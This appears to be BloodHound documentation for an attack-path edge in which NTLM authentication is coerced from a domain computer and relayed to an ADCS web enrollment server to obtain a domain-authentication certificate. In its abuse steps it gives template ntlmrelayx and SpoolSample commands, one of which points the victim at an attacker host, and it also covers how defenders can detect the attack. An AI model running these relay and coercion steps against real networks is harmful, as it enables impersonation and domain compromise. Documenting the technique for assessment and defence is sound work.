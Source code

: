 ```yaml
---
title: CoerceAndRelayNTLMToADCS
description: The target computer can be coerced to authenticate via NTLM to an ADCS server, allowing an attacker to obtain a certificate for domain authentication.
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

This edge indicates that an attacker with "Authenticated Users" access can trigger SMB-based coercion from the target computer to their attacker-controlled host via NTLM. The authentication attempt from the target computer can then be relayed to an ESC8-vulnerable web enrollment endpoint of an Active Directory Certificate Services (ADCS) enterprise CA server. This allows the attacker to obtain a certificate enabling domain authentication as the target computer.

## Abuse Info

This section provides general guidance about abusing this edge. For detailed instructions, see [references](#references) at the end of this article.

### Linux

1. **Start the Relay Server**

   The NTLM relay can be executed with [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py). To relay to the enterprise CA and enroll a certificate, specify the HTTP(S) endpoint as the target and use the following arguments:
   
   ```bash
   impacket-ntlmrelayx -t {Target} --adcs --template {Template Name} -smb2support
   ```

1. **Coerce the Target Computer**

   Several coercion methods are documented here: [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods).

   Examples of tools include:

   - [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
   - [PetitPotam](https://github.com/topotam/PetitPotam)

   To trigger WebClient coercion (instead of regular SMB coercion), the listener must use a WebDAV Connection String format: `\\SERVER_NETBIOS@PORT/PATH/TO/FILE`.

### Windows

1. **Start the Relay Server**

   The NTLM relay can be executed with [Inveigh](https://github.com/Kevin-Robertson/Inveigh).

1. **Coerce the Target Computer**

   Several coercion methods are documented here: [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods).

   Examples of tools include:

   - [SpoolSample](https://github.com/leechristensen/SpoolSample)
   - [PetitPotam](https://github.com/topotam/PetitPotam)

   To trigger WebClient coercion (instead of regular SMB coercion), the listener must use a WebDAV Connection String format: `\\SERVER_NETBIOS@PORT/PATH/TO/FILE`.

   ```ps
   SpoolSample.exe "VICTIM_IP" "ATTACKER_NETBIOS@PORT/file.txt"
   ```

## Opsec Considerations

### Detection of NTLM Relay

NTLM relayed authentications can be detected by login events where the IP address does not match the computer's actual IP address. This detection technique is described in the [Detecting NTLM Relay Attacks](https://posts.bluraven.io/detecting-ntlm-relay-attacks-d92e99e68fb9) blog post.

### Detection of Certificate Usage

Authentication using the obtained certificate is another detection opportunity. If Kerberos authentication is used, a domain controller will generate Windows Event ID 4768 ("A Kerberos authentication ticket (TGT) was requested"). This event will include the attacker's IP address rather than the target computer's IP address. Similarly, for Schannel authentication, Event ID 4624 will reveal the incorrect IP address. These detection techniques are described in detail under DETECT2 in the [Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf) whitepaper.

## Edge Schema

Source: `Authenticated Users`, [Group](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/group)  
Destination: [Computer](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/computer)  
Traversable: **Yes**  

## References

- [Hackndo: NTLM relay](https://en.hackndo.com/ntlm-relay/)
- [Microsoft: NTLM Overview](https://learn.microsoft.com/en-us/windows-server/security/kerberos/ntlm-overview)
- [Relay Your Heart Away: An OPSEC-Conscious Approach to 445 Takeover](https://posts.specterops.io/relay-your-heart-away-an-opsec-conscious-approach-to-445-takeover-1c9b4666c8ac)
- [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
- [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
- [PetitPotam](https://github.com/topotam/PetitPotam)
- [SpoolSample](https://github.com/leechristensen/SpoolSample)
- [Beyond the Basics: Exploring Uncommon NTLM Relay Attack Techniques](https://www.guidepointsecurity.com/blog/beyond-the-basics-exploring-uncommon-ntlm-relay-attack-techniques/)
- [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
- [I'm bringing relaying back: A comprehensive guide on relaying anno 2022](https://trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022)
- [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
- [2020, 2023, and 2024 LDAP channel binding and LDAP signing requirements for Windows (KB4520412)](https://support.microsoft.com/en-us/topic/2020-2023-and-2024-ldap-channel-binding-and-ldap-signing-requirements-for-windows-kb4520412-ef185fb8-00f7-167d-744c-f299a66fc00a)
- [Detecting NTLM Relay Attacks](https://posts.bluraven.io/detecting-ntlm-relay-attacks-d92e99e68fb9)
